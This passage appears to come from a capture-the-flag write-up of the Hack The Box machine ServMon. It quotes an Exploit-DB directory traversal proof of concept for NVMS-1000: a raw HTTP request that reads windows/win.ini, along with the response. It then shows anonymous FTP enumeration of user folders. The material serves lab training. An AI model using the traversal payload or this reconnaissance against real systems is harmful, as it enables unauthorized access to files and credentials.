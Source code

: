 `NVMS 1000 - Directory Traversal` describes the following directory traversal attack:

```
# Title: NVMS-1000 - Directory Traversal
# Date: 2019-12-12
# Author: Numan T<C3><BC>rle
# Vendor Homepage: http://en.tvt.net.cn/
# Version : N/A
# Software Link : http://en.tvt.net.cn/products/188.html

POC
---------
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 12.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: tr-TR,tr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

Response
---------

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

Reproducing this in Burp is successful, but I don't immediately have anything to do with this.

I decide to take a look at the other ports.
Since FTP is open, I test for anonymous access and find that it is successful.

```bash
ftp 10.10.10.184
```

I can't upload any files, but I can download what is available on the system.
I first check to see what users exist on the target:

```
ftp> cd /Users
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:06PM       <DIR>          Nadine
01-18-20  12:08PM       <DIR>          Nathan
226 Transfer complete.
```

There are two users, `Nadine` and `Nathan`.
I check for any interesting files under each user's home directory.
Hmm, `Confidential.txt` sounds promising...


[burp]: https://portswigger.net/burp
[exploitdb]: https://www.exploit-db.com/
[hackthebox]: https://www.hackthebox.eu
[hydra]: https://tools.kali.org/password-attacks/hydra
[nsclient++]: https://nsclient.org/
[privesc]: https://www.exploit-db.com/exploits/46802
[rce]: https://www.exploit-db.com/exploits/48360
[root shell]: /assets/img/htb/servmon/root-shell.png